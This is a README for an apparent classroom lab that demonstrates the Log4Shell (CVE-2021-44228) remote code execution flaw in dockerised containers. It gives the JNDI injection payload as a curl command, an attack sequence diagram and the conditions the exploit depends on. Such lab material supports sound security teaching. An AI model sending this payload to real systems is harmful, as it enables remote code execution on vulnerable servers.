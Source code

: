 
# Log4Shell Vulnerable Lab Demo

This project demonstrates a working proof-of-concept (PoC) of the infamous Log4Shell vulnerability (CVE-2021-44228), leading to remote code execution (RCE) via a vulnerable Java web application.

---

## 🔥 What This Demonstrates

- A Spring Boot app using **Log4j 2.14.1**
- Java runtime **1.8.0_131** (vulnerable version)
- `LDAPRefServer` (from [marshalsec](https://github.com/mbechler/marshalsec)) simulating a malicious LDAP redirect
- A custom `Exploit.class` that triggers RCE when loaded

---

## 🛠️ Project Structure

```
homework9/
├── docker-compose.yml
├── ldap/
│   ├── Dockerfile
│   ├── Exploit.java
├── web/
│   ├── Dockerfile
│   ├── pom.xml
│   └── src/
│       ├── main/
│       │   ├── java/com/example/
│       │   │   ├── Application.java
│       │   │   └── LogController.java
│       │   └── resources/
│       │       └── log4j2.xml
```

---

## 🚀 Running the Demo

```bash
docker-compose build
docker-compose up
```

1. Start containers and watch logs.
2. Send exploit request:
   ```bash
   curl "http://localhost:8080/log?input=${jndi:ldap://ldap:1389/Exploit}"
   ```
3. Look for output in `web-1`:
   ```
   💥 Exploit triggered — RCE confirmed!
   ```

---

## ✅ Success Indicators

- `💥 Exploit triggered` message printed from `Exploit.class`
- LDAP log shows redirect to Exploit.class
- Log4j version: 2.14.1
- Java version: 1.8.0_131

---

## ❌ Common Pitfalls

- Java version too new (must be Java ≤ 8u131 for exploit to work)
- `trustURLCodebase=false` prevents loading remote class (must be true or unset)
- Using Logback instead of Log4j

---

## 🧠 Mermaid Diagram

```mermaid
sequenceDiagram
    participant User
    participant WebApp
    participant LDAP
    participant HTTPServer

    User->>WebApp: GET /log?input=${jndi:ldap://ldap:1389/Exploit}
    WebApp->>LDAP: JNDI Lookup for Exploit
    LDAP->>WebApp: LDAP Reference to http://web:8080/Exploit.class
    WebApp->>HTTPServer: Fetch Exploit.class
    HTTPServer-->>WebApp: Return Exploit.class
    WebApp->>WebApp: Load & Execute static block in Exploit
```

---

## 📚 References

- https://log4shell.com/
- https://github.com/mbechler/marshalsec
- https://www.lunasec.io/docs/blog/log4j-zero-day/

---

## 🛡️ Educational Purposes Only

**⚠️ This project is for educational and demonstration purposes only. Do not use in production.**

---

## 🧑‍💻 Author

**Timothy Brennan**  
For educational use in container security labs.

---